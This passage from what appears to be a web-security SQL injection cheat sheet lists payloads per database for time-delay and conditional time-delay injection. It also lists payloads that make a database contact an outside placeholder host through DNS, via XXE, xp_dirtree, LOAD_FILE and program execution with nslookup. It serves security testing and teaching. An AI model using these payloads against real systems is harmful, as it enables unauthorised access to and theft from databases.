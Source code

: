 #### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

|Database|Exploit|
|---|---|
|Oracle|`dbms_pipe.receive_message(('a'),10)`|
|Microsoft|`WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT pg_sleep(10)`|
|MySQL|`SELECT SLEEP(10)`|

## Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

|Database|Exploit|
|---|---|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) |ELSE NULL END FROM dual`|
|Microsoft|`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`|

## DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator client](/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

|Database|Exploit|
|---|---|
|Oracle|The following technique leverages an XML external entity ([XXE](/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:  <br/> `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual` <br/><br/> The following technique works on fully patched Oracle installations, but requires elevated privileges:  <br/> `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`|
|Microsoft|`exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`|
|PostgreSQL|`copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`|
|MySQL|The following techniques work on Windows only: <br/> `LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')` <br/>`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`|

## DNS lookup with data exfiltration
